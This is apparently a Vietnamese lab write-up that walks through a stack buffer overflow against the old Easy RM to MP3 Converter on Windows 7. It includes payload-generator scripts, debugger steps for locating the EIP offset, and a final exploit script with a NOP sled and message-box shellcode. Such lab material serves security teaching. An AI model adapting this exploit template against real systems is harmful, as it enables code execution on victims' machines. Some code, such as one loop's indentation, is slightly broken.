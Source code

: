 # babe kajima 

## Mô hình 

- Sử dụng CentOS7 cài đặt python 
- Sử dụng win7 32 bit cài đặt python 2.7.14

## Tải phần mềm Easy RM to MP3 Converter

Bước 1: 

- Tải phần mềm cài đặt tại <a href="https://samsclass.info/127/proj/707414955696c57b71c7f160c720bed5-EasyRMtoMP3Converter.exe">đây</a>.

- Sau khi cài đặt xong 


    <img src="https://i.imgur.com/i3F63B2.png">

- Trên máy CentOS sử dụng chương trình python tạo ra 10000 kí tự A 

    ```
    vim gen_payload.py
    ```
    ```
    #!/usr/bin/python
    attack = 'A' * 10000
    print attack
    ````

    Ghi vào một file đuôi m3u

    ```
    python gen_payload.py > demo.m3u
    ```

    Sử dụng python run webserver 

    ```
    python -m SimpleHTTPServer 8888
    ```

- Trên máy win7 truy cập vào http://IP_centos:8888 tải file demo.m3u

    <img src="https://i.imgur.com/2sFEiyO.png">

- Chạy demo.m3u trên ứng dụng convert 

    Chọn Load sau đó tới đường dẫn thư mục chứa demo.m3u đã tải về 

    <img src="https://i.imgur.com/cpguxpo.png">

Bước 2: 

- Làm tương tự bước 1 tăng lên 20000 kí tự 
- Đến 30000 kí tự ứng dụng bị crash 

    <img src="https://i.imgur.com/OQcdziQ.png">

Bước 3: 

- Tạo ra một chuỗi payload để xác định độ dài buffer 

    ```
    #!/usr/bin/python

    prefix = 'A' * 20000
    chars = ''
    for a in range(0x41, 0x5A):
    for i in range(0x30, 0x3A):
        for j in range(0x30, 0x3A):
            chars += chr(a) + chr(a) + chr(i) + chr(j)
    attack = prefix + chars
    print attack
    ```

    ```
    python gen_payload.py > payload.m3u
    ```

    payload gồm 20000 kí tự A và 25000 một nhóm gồm 4 kí tự có dạng như sau 

    ```
    A...
    A...
    A...
    AA00 AA01 AA02 ... AA98 AA99 
    BB00 BB01 BB02 ... BB98 BB99 
                ...
    PP00 ...  PP22 PP23 ... PP99 
                ...
    YY00 YY01 YY02 ... YY98 YY99
    ```


Bước 4: 

- Mở Immunity Debugger click File => Open 

    <img src="https://i.imgur.com/QQIRM2Q.png">

- F9 để run ứng dụng 
- Load file chứa payload

    <img src="https://i.imgur.com/ZGf8pRw.png">

- Giá trị EIP đang là 50313250 

```
50 P
31 1
32 2
50 P
```
Intel processors are "Little Endian", so addresses are inserted in reverse order => EIP là 'P21P'

- P21P năm ở hàng số  16 cột số  21 => 15*400 + 21*4 +1

=> buffer có độ dài 6085


Bước 6: exploit 

    ```
    #!/usr/bin/python

    prefix = 'A' * (20000 + 15*400 + 21*4 + 1)
    eip = '\x58\xb0\x01\x10'
    skip4 = 'FFFF'
    nopsled = '\x90' * 16
    shellcode = (
    "\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b" +
    "\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09" +
    "\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d" +
    "\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03" +
    "\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81" +
    "\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04" +
    "\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03" +
    "\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3" +
    "\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68" + 
    "\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68" +
    "\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9" +
    "\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65" +
    "\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01" +
    "\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68" +
    "\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68" +
    "\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68" +
    "\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57" +
    "\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c" +
    "\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78" +
    "\x69\x74\x54\x53\xff\xd6\x57\xff\xd0"
    )
    int3 = '\xCC'
    padding = 'F' * (30000 - len(prefix) - 4 -4 -16 - 1 - len(shellcode))
    attack = prefix + eip + skip4 + nopsled + shellcode + int3 + padding
    print attack
    ```

Bước 7: 

<iframe width="560" height="315" src="https://www.youtube.com/embed/hzaboLyDTeM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
